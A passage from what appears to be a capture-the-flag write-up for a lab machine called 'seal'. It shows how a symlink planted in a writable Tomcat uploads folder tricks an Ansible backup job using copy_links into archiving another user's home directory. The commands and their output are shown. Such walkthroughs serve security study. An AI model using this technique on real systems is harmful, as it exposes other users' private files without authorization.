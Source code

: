 This looks to be what’s running each minute. It is an [Ansible](https://www.ansible.com/) playbook with three tasks. Ansible describes itself as:

> Ansible is a universal language, unraveling the mystery of how work gets done. Turn tough tasks into repeatable playbooks. Roll out enterprise-wide protocols with the push of a button.

The three tasks:
- “Copy Files” takes all the files for the dashboard and copies them into a folder in this directory, `files`, using the [synchronize](https://docs.ansible.com/ansible/latest/collections/ansible/posix/synchronize_module.html) module. It’s important to note the `copy_links=yes` directive.
- “Server Backups” runs the [archive](https://docs.ansible.com/ansible/2.5/modules/archive_module.html) module which generates the `.gz` file with the timestamp.
- “Clean” removes the `files` directory using the [file](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/file_module.html) module.

### Exploit

In order to exploit this, I’ll need to look for something I can write in the Tomcat web directory. The `uploads` folder works:

```

tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ find . -writable
./uploads

```

The most straight forward way to abuse this is to get access to files as luis, the user who is running this playbook. I’ll create a symlink to luis’ home directory in the uploads folder:

```

tomcat@seal:/$ ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/

```

The next backup is larger:

```

tomcat@seal:/$ ls -l /opt/backups/archives/
total 15784
-rw-rw-r-- 1 luis luis   608916 Sep  4 07:55 backup-2021-09-04-07:55:32.gz
-rw-rw-r-- 1 luis luis   608916 Sep  4 07:56 backup-2021-09-04-07:56:33.gz
-rw-rw-r-- 1 luis luis   608916 Sep  4 07:57 backup-2021-09-04-07:57:33.gz
-rw-rw-r-- 1 luis luis   608916 Sep  4 07:58 backup-2021-09-04-07:58:33.gz
-rw-rw-r-- 1 luis luis 13721600 Sep  4 07:59 backup-2021-09-04-07:59:32.gz

```

I’ll copy it into `/dev/shm`, and examine it:

```

tomcat@seal:/dev/shm$ file backup-2021-09-04-07:59:32.gz 
backup-2021-09-04-07:37:32.gz: gzip compressed data, was "backup-2021-09-04-07:37:32", last modified: Sat Sep  4 07:37:40 2021, max compression, original size modulo 2^32 141936640

```
